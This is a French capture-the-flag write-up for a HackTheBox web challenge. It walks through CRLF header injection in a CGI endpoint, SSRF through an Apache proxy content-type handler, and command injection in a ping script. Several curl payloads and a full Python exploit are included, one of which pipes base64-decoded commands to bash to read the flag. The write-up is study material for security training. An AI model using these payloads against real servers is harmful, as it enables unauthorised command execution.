

### SCAN 

### ENUMERATION


### WEB BROWSER


Indice dans l'inspector : 


Essayons de nous faire passer pour un **localhost** :

mouai : 
La requête:
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'


### Explication


### Test : 

```bash 
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3d%27%3bcat%20flag.txt%3b%27%0d%0a%0d%0a'

```

En fait c'est **target** qui est injectable : 


```bash
curl -v 'http://83.136.252.23:46546/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation:/ooo%0d%0aContent-Type%3aproxy%3ahttp%3a//localhost/cgi-bin/attack-ip%3ftarget%3d127.0.0.1%26name%3dtest%3f%0d%0a%0d%0a'
```

```sh
curl -v 'http://83.136.253.71:46720/cgi-bin/attack-domain?target=127.0.0.1&name=local%0d%0aLocation%3a%2fooo%0d%0aContent-Type%3aproxy%3ahttp%3a%2f%2flocalhost%2fcgi-bin%2fattack-ip%3ftarget%3d127.0.0.1%3bcat%20flag.txt%26name%3dtest%0d%0a%0d%0a'
```

c'est sur que c'est ça : 


Mais la facon de le faire n'est pas la bonne > 
En voyant le WritesUP lets retry : [cyber-apocalypse-2025/web/web_obsidian_enigma at main · hackthebox/cyber-apocalypse-2025](https://github.com/hackthebox/cyber-apocalypse-2025/tree/main/web/web_obsidian_enigma)

On peut juste commencer par afficher le Status du serveur dans le **header** Content-type : 

**Payload** : 
`/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:server-status%0d%0a%0d%0a`

Ce qui correspond à : 
```sh
/cgi-bin/attack-domain?target=test&name=asdfasfd
Location:/as
Content-Type:server-status
```


On remarque que le server répond. C'est là que nous pouvons faire une SSRF attack en remplacant le **Server-Status** par `proxy:http://127.0.0.1/cgi-bin/attack-ip` 
Nous n'allons pas prendre **attack-domain.py** car il y a u filtre sur le *{target}*

`attack-ip.py` 
```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
```

Maintenant que l'on sait ça, on peut scrypter le tout avec **python** as always...

Le code : 

```python
from requests import get
url = 'http://localhost:1337'

def quote(s):
    return ''.join([f'%{hex(ord(c))[2:]}' for c in s])
def dquote(s):
    return quote(quote(s))

from base64 import b64encode
payload = b64encode(b'cat /flag* > /var/www/html/flag.txt').decode()

handler = f'proxy:http://127.0.0.1/cgi-bin/attack-ip?name=asfs{quote('&')}target=::1{dquote(f"%; echo \"{payload}\" | base64 -d | bash")}{quote('&')}dummy='

get(f'{url}/cgi-bin/attack-domain?target=test&name=asdfasfd%0d%0aLocation:/as%0d%0aContent-Type:{handler}%0d%0a%0d%0a')

print(get(f'{url}/flag.txt').text)
```

Décortiquons le code : 

`1 : quote(s) &  dquote(s)`
Cette fonction permet de retourner une version encodée en URL où chaque caractère est remplacé par son équivalent hexadécimal précédé d'un `%`
Si on applique deux fois la fonction **quotes** comme dans **dquotes** alors on décode ;)

`2 : base64 `
Encoder la payload en base64 pour permettre de l'envoyer sur le server. Une fois décoder, la **payload** va donc s'exécuter sur le poste > 



`3 : handler`
Le **handler** sera notre chaine de caractère complexe qui incluera le `quote` et `dquote` et la `payload` en base64. 

On envoie donc ensuite en **GET** cette chaine de caractère qui est notre URL. 

Cette requête va nous permettre d'envoyer ensuite une commande **bash** au server et ainsi faire un `cat ./flag.txt`


On `print` les sorties : 


Et si on keep que le **flag.txt** 


